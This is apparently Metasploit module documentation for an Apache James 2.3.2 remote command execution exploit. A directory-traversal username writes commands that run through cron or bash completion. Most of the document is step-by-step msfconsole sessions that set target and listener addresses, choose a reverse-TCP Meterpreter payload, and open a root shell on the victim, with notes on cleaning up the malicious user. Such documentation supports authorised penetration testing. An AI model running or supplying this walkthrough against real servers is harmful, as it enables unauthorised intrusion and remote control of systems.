 ## Vulnerable Application
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2.
  By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file.
  Instructions for installing the vulnerable application for testing can be found here:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps
  __1.__ Start msfconsole

  __2.__ DO: Load module exploit/linux/smtp/apache_james_exec

  __3.__ DO: Set the remote and local options: rhosts, lhosts, lport

  __4.__ DO: Set the preferred payload

  __5.__ DO: Run the check method to determine vulnerability

  __6.__ DO: Run the exploit

  __7.__ The payload will connect to the listener if the exploit is successful

## Options
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.

  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.

  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.

  **RHOSTS:**  The IP address of the vulnerable server.

  **RPORT:**  The port number of the SMTP service.

  **POP3PORT** The port for the POP3 Apache James Service.  By default this '110'.

## Scenarios
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction
  required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the
  mail objects.

  __1.__ Load the module:

```
  msf > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf exploit(linux/smtp/apache_james_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

  ---------------------------------------------------------------------------------------------
  **If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that
  fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the
  /etc/bash_completion.d directory and the malicious user account.

  __1.__ Load the module:

```
  msf > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

  __5.__ Set up and run listener (Can be done before running exploit):

```
  msf exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lport 4444
  lport => 4444
  msf exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion
  1   Cron
```

## References
  1. <https://www.exploit-db.com/exploits/35513>
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
